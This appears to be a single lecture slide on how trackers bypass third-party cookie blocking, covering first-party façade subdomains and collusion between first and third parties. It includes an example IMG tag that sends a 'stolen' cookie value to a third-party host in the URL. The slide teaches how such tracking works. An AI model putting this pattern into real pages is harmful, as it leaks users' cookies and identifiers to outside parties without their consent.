

# Bypassing Blocked 3rd Party Cookies
First-party façade:  advertising_company.amazon.com
Collusion: first-party, third-party share data
First-party can send data to third-party in URL
<IMG src=“http://third-party?cookie=stolen”>